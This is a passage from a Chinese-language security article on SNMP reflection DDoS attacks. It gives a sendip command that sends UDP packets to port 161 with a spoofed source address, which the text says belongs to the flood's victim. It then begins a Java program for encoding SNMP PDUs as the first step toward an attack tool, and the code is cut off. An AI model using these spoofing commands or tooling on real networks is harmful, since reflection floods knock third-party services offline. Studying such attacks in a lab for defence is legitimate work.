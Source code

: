 此处我用的是sendip这个工具，安装很简单http://www.earth.li/projectpurple/progs/sendip.html

下载源码之后直接在linux下编译安装，这其中可能会遇到编译问题，请参考这里http://blog.csdn.net/figo1986/article/details/7336131

下面看下我用的命令

```
sendip -v -p ipv4 -is src_IP -id dst_IP -p udp -us 8000 -ud 161 dst_IP  -d0x123456789

```

这里是使用ipv4的协议发送udp包，src_IP 源ip， dst_ip 目的ip，-us udp源端口,-ud udp目的端口，这里snmp默认端口是161，源端口自己随便填，最后部分是数据部分，其实可以直接输入明文的，但是snmp的pdu编码是非常蛋疼的，所以我使用了-d 16进制的形式。

下面是效果，这个包就发到本地吧，这里的源地址就是ddos的反射攻击的被攻击者的地址。

![2014052716275084302.jpg](http://drops.javaweb.org/uploads/images/b31bc800ed0516c8cf34cec9cf0dd2652d2aafd7.jpg)

这里看到了效果，为下一步工具化进行了铺垫

最后这个图是虚拟机环境搭的，实现反射攻击的整体图

![2014052716283040757.jpg](http://drops.javaweb.org/uploads/images/c9fbb26b647acfad1b74527bf5438592d1ddfe4f.jpg)

0x03工具化
-------

* * *

首先要解决snmp数据包pdu部分的蛋疼的编码部分，snmp的数据部分是符合基本编码规则（ber）的这里有三篇文章，大家可以完全读懂ber编码和snmp的关系。

http://blog.csdn.net/shanzhizi/article/details/11574849  
http://yuanmuqiuyu2000.blog.sohu.com/72641116.html  
http://blog.chinaunix.net/uid-23069658-id-3251045.html

对于这个蛋疼的编码，我写了个java程序来生成pdu，里面有注释，大家很好理解的。

```
import java.io.UnsupportedEncodingException;

public class SnmpPDUber {
    public static String sumlen(String s){
        int c=0;
        String r="";
        String r2="";
        s=qukongge(s);
        s=s.replaceAll(" ","+");
        r=s.replaceAll("\\+","");
        //System.out.println(s);
        c=r.length()/2;
        r2=Integer.toHexString(c);             //十进制转换成16进制返回
        return subStr(r2);
    }

    public static String randomtohex(int i) //产生 i 组 16进制 随机数
    {
        String s="";
        int k;
        for(int j=0;j<i;j++){
        k=(int)(1+Math.random()*(254-1+1));
            s=s+Integer.toHexString(k)+" ";
        }
        return s;
    }

    public static String subStr(String s)         // (双位) 0变成00
    {
        if(s.length()%2==1){
            s="0"+s;
```
